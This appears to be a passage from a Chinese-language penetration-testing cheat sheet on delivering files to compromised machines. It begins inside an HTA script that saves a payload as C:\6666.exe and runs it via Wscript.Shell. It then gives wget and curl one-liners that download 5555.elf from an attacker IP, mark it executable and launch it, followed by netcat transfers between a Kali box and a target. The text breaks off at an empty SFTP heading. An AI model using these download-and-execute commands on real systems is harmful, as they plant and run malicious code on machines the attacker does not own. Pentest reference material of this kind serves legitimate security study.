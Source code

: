```html
    Stream.SaveToFile("C:\\6666.exe", 2);
    Stream.Close();
    var Shell = new ActiveXObject("Wscript.Shell");
    Shell.Run("C:\\6666.exe");
}
window.close();
</script>
<HTA:APPLICATION ID="test" WINDOWSTATE = "minimize">
</head>
<body>
</body>
</html>
```

## Linux文件传输

### wget

```bash
wget http://192.168.81.229/5555.elf -P /tmp/ && chmod +x /tmp/5555.elf && /tmp/5555.elf &
# -P 指定存储路径
# -O 指定保存的文件名
```

### curl

```bash
curl -o 5555.elf http://192.168.81.229/5555.elf && chmod +x 5555.elf && ./5555.elf &

curl -O http://192.168.81.229/5555.elf && chmod +x 5555.elf && ./5555.elf &

# -o 自定义保存的文件名
# -O 使用远程文件名
```

### netcat

```bash
# kali
cat file | nc -lvvp 1234

# linux
nc 192.168.81.229 1234 > 5555.elf

# kali
nc 192.168.81.221 1234 < 5555.elf

# linux
nc -lvvp 1234 > 5555.elf
```

### SFTP

